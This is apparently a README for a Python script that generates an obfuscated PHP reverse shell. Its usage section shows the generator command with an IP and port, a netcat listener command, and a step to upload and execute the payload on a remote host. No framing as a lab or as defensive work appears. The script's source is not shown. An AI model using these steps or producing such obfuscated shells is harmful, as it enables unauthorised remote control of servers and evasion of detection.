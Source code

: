 # PHP reverse shell generator
This is a small python script to generate an obfuscated php reverse shell.

## Usage
1. Generate the payload: ``` python php_reverseshell_gen.py <ip> <port> <filename>```
2. Listen for incoming TCP connections on the port you choosen: ```nc -lvvp <port>```
2. Upload and execute the payload on the remote host
